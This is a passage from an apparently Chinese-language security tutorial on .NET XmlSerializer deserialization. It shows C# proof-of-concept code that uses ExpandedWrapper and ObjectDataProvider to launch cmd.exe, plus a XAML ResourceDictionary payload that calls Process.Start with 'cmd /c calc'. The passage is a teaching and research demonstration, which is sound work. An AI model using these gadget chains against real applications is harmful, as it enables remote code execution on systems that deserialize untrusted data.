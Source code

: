 ```c#  
        public void Evil(string cmd)  
        {  
            Process process = new Process();  
            process.StartInfo.FileName = &#34;cmd.exe&#34;;  
            process.StartInfo.Arguments = &#34;/c &#34; &#43; cmd;  
            process.Start();  
        }  
    }  
    class Program  
    {  
        static void Main(string[] args)  
        {  
            MemoryStream memoryStream = new MemoryStream();  
            TextWriter writer = new StreamWriter(memoryStream);  
            ExpandedWrapper&lt;Person, ObjectDataProvider&gt; expandedWrapper = new ExpandedWrapper&lt;Person, ObjectDataProvider&gt;();  
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();  
            expandedWrapper.ProjectedProperty0.MethodName = &#34;Evil&#34;;  
            expandedWrapper.ProjectedProperty0.MethodParameters.Add(&#34;calc&#34;);  
            expandedWrapper.ProjectedProperty0.ObjectInstance = new Person();  
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper&lt;Person, ObjectDataProvider&gt;));  
            xml.Serialize(writer, expandedWrapper);  
            string result = Encoding.UTF8.GetString(memoryStream.ToArray());  
            Console.WriteLine(result);  
  
            memoryStream.Position = 0;  
            xml.Deserialize(memoryStream);  
            Console.ReadKey();  
  
  
        }  
    }  
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506032051674.png)
但是这样显得就很鸡肋了。此时我们需要引入一个新的类`ResourceDictionary`  
### ResourceDictionary  
`ResorceDictionary`，也称为资源字典通常出现在`WPF`或`UWP`应用程序中用来在多个程序集间共享静态资源。既然是WPF程序，必然涉及到前端UI设计语言XAML。XAML全称`Extensinle Application Markup Language`基于XML的，且`XAML`是以一个树形结构作为整体。  
它是可以直接执行命令的  
Demo  
```xml  
&lt;ResourceDictionary   
                    xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;   
                    xmlns:d=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;   
                    xmlns:b=&#34;clr-namespace:System;assembly=mscorlib&#34;   
                    xmlns:c=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&gt;  
    &lt;ObjectDataProvider d:Key=&#34;&#34; ObjectType=&#34;{d:Type c:Process}&#34; MethodName=&#34;Start&#34;&gt;  
        &lt;ObjectDataProvider.MethodParameters&gt;  
            &lt;b:String&gt;cmd&lt;/b:String&gt;  
            &lt;b:String&gt;/c calc&lt;/b:String&gt;  
        &lt;/ObjectDataProvider.MethodParameters&gt;  
    &lt;/ObjectDataProvider&gt;  
&lt;/ResourceDictionary&gt;  
```  
这段xaml  
